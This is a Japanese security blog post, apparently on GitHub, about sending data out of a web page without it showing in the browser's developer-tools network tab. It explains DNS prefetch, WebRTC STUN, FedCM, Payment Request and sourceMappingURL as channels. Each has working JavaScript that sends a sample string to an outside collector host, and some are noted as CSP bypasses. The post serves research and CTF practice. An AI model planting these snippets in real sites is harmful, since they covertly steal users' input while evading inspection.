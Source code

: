 # ブラウザ開発者ツールのネットワークタブに表示されない情報送信手法

## はじめに
はじめまして、セキュリティエンジニアのSatoki ([@satoki00](https://x.com/satoki00)) です。今回はブラウザの開発者ツールのネットワークタブから隠れて、Webサイト内の情報を送信する手法をまとめます。所謂Exfiltrationというやつです。中にはCSPの制限をBypassするために用いられるテクニックもあります。CTFなどで安全に使ってください。

## 前提
発端はWeb上でテキストの文字数をカウントできるサイトが閉鎖する際の話です。カウント対象のテキストデータがサイト運営 (やサイトを改竄した攻撃者) に盗み取られていないかという議論が巻き起こっていました。「盗み取られていない」側の主張は、ブラウザの開発者ツールのネットワークタブにリクエストを送信した形跡がないというものでした。ここで **ブラウザの開発者ツールのネットワークタブに表示がなければ外部へデータを送信していないのか？** といった疑問が生まれます。確かにfetchやXMLHttpRequestを用いて外部へデータを送信すると、ネットワークタブにリクエストの詳細が表示されます。とても気になりますね。

![example.png](images/example.png)  
ネットワークタブにリクエストの詳細が表示される  


ちなみに、件の文字数カウントサイトはローカルで文字数をカウントする設計で、安全だったのであろうと考えています (HTTPS未対応だったのでMITMできるという話は置いておく) 。

## テクニック
**ブラウザの開発者ツールのネットワークタブに表示がなければ外部へデータを送信していないのか？** の答えは否です。よく考えれば分かるのですが、実際にJavaScriptで送信するテクニックを紹介します。テクニックのゴールは、"文字数カウントのために貼り付けられたテキストを、ネットワークタブに表示させることなく送信する"です。ここではサイト運営が悪人か、サイトが改竄されたかを問いません。ちなみにページのcloseを検知しての送信や時間差での送信などは禁止です 。シグナリング時のWebSocketも怪しすぎるのでアウトです。

以下が今回の検証環境です。  
- Google Chrome 126.0.6478.127 (Firefoxには生えていないWebAPIがあるので注意)  
- [RequestBin](https://pipedream.com/requestbin) (HTTPリクエストの受信)  
- [mess with dns](https://messwithdns.net/) (DNSリクエストの受信)  

送信するデータの例として文字列 `Satoki_no_himitsu` を用います。他の文字列でもbase64やhexに変換すれば、やることは変わりません。長さが問題であれば分割すれば良いです。

### DNS Prefetch
ページ読み込みの速度向上のため、ブラウザが事前に名前解決を行う仕組みを利用します。HTML中に`<link rel="dns-prefetch" href="URL">`と記述することで利用できます。ブラウザの設定で「ページをプリロードする」がoffの場合には利用できません。

```js
var body = document.getElementsByTagName("body")[0];
body.innerHTML = body.innerHTML + '<link rel="dns-prefetch" href="//' + "Satoki_no_himitsu".split("").map(c => c.charCodeAt(0).toString(16)).join("") + '.papaya260.messwithdns.com">';
```

![dns_prefetch.png](images/dns_prefetch.png)  
受信したリクエスト  

### WebRTC
WebRTCのコネクション時のSTUNサーバへのDNSリクエストを利用します。未検証ですがSTUNサーバの認証のためのusernameとして送信したい情報を設定する手法もあるようです。

```js
p = new RTCPeerConnection({
    iceServers: [{
        urls: "stun:" + "Satoki_no_himitsu".split("").map(c => c.charCodeAt(0).toString(16)).join("") + ".rhino232.messwithdns.com"
    }]
});
p.createDataChannel("");
p.setLocalDescription();
```

![webrtc.png](images/webrtc.png)  
受信したリクエスト  


### Federated Credential Management
IdPから構成情報を取得する際のリクエストURLを利用します。認証情報を保存する際のアイコンのURLとして情報を送信する手法も確認されていますが、ユーザにダイアログが出現するため今回はスコープ外とします。セキュアコンテキストでのみ利用できます。

```js
navigator.credentials.get({
    identity: {
        providers: [{
            configURL: "https://enbx53nv6g23p.x.pipedream.net/?text=" + "Satoki_no_himitsu",
            clientId: "satoki",
        }, ],
    },
});
```

![fedcm.png](images/fedcm.png)  
受信したリクエスト  


### Payment Request
Payment Request APIのコンストラクタに決済手段としてURLを渡すことで、リクエストが発される仕組みを利用します。セキュアコンテキストでのみ利用できます。

```js
new PaymentRequest(
    [{
        supportedMethods: "https://envycdb25h1v.x.pipedream.net/?text=" + "Satoki_no_himitsu",
    }, ], {
        total: {
            label: "total",
            amount: {
                value: "10000",
                currency: "USD"
            },
        },
    },
);
```

![paymentrequest.png](images/paymentrequest.png)  
受信したリクエスト  

### sourceMappingURL
ブラウザがminifyなどされる前のソースコードを取得するSourceMapを利用します。HTML中に`<script>//# sourceMappingURL=URL</script>`と記述することで利用できます。開発者ツールを開いた場合 (Firefoxではデバッグタブを開いた場合) にのみリクエストが発生します。

```js
var script = document.createElement("script");
script.text = "//# sourceMappingURL=https://en74n4g1y5i1j.x.pipedream.net/?text=" + "Satoki_no_himitsu";
document.body.appendChild(script);
```

![sourcemappingurl.png](images/sourcemappingurl.png)  
受信したリクエスト  


## おわりに
**いかがでしたか！**  
ブラウザの開発者ツールのネットワークタブに表示が無くとも、外部に情報が送信されている可能性があることがわかりましたね。他にも様々な手法があるかと思いますので、発見したら教えてください。


※ 本記事は2024/04/02にX (旧Twitter) にポストしたもの+αのまとめです。それ以降でどこかにまとめられているかもしれませんが、私の知るところではありません。

## 参考文献
- [HackTricks / CSP Exfiltration Bypasses](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#csp-exfiltration-bypasses)  
- [@st98さんのXポスト](https://x.com/st98_1f512/status/1787857217557070142)  
- [@melonattackerさんのXポスト](https://x.com/melonattacker/status/1787839408458416417)  
- [MDN / Federated Credential Management (FedCM) API](https://developer.mozilla.org/en-US/docs/Web/API/FedCM_API)  
- [MDN / Payment Request API](https://developer.mozilla.org/en-US/docs/Web/API/Payment_Request_API)  
- [@XssPayloadsさんのXポスト](https://x.com/XssPayloads/status/792683058931625984)  